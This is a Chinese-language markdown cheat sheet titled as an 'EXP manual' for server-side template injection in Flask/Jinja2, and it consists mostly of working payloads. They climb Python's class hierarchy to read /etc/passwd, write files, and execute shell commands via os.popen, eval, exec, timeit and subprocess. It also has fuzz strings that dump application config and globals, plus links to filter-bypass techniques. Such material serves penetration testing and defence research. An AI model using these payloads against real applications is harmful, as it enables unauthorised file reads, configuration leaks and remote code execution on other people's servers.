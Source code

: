 # EXP手册-服务端模板注入（SSTI） 
## 基础知识
[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)
## EXP
### 0x01获取基本类    
```   
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8]
```
可以借助__getitem__绕过中括号限制：
```
''.__class__.__mro__.__getitem__(2)
{}.__class__.__bases__.__getitem__(0)
().__class__.__bases__.__getitem__(0)
request.__class__.__mro__.__getitem__(8)
```
注释：
```
__class__:获得当前对象的类
__bases__:列出其基类
__mro__ :列出解析方法的调用顺序，类似于bases
__subclasses__()：返回子类列表
__dict__ ： 列出当前属性/函数的字典
func_globals:返回一个包含函数全局变量的字典引用
```
### 0x02文件操作
>**需要注意**：不同Python的版本，类方法中的子类列表是不同，下面主要是以python2为例子   

>```object.__subclasses__()[40]```为file类，所以可以对文件进行操作
>读文件：
```
object.__subclasses__()[40]('/etc/passwd').read()
```
>写文件：
```
object.__subclasses__()[40]('/tmp').write('test')
```
### 0x03执行命令


>```object.__subclasses__()[59].__init__.func_globals.linecache```下直接有os类，可以直接执行命令：
```
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
```
>```object.__subclasses__()[59].__init__.__globals__.__builtins__```下有```eval，__import__```等的全局函数，可以利用此来执行命令：
```
object.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
object.__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

### 0x04任意代码执行以及文件读取的函数

>os 执行系统命令
```
import os
os.system('ipconfig')
```
>exec 任意代码执行
```
exec('__import__("os").system("ipconfig")')
```
>eval 任意代码执行
```
eval('__import__("os").system("ipconfig")')
```
>timeit 本是检测性能的，也可以任意代码执行
```
import timeit
timeit.timeit("__import__('os').system('ipconfig')",number=1)
```
>platform
```
import platform
platform.popen('ipconfig').read()
```
>subprocess
```
import subprocess
subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE,stderr=subprocess.STDOUT).stdout.read()
```
>file
```
file('/etc/passwd').read()
```
>open
```
open('/etc/passwd').read()
```
>codecs
```
import codecs
codecs.open('/etc/passwd').read()
```
### 0x05Fuzz
```
{{config}}
{{handler.settings}}
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
```
### 0x06Bypass
- [Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)
- [SSTI Bypass 分析](https://www.secpulse.com/archives/115367.html)   

请求参数获取   
- GET: request.args
- Cookies: request.cookies
- Headers: request.headers
- Environment: request.environ
- Values: request.values

### Reference：
- [Flask/Jinja2 SSTI && python 沙箱逃逸](https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/)
- [Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)
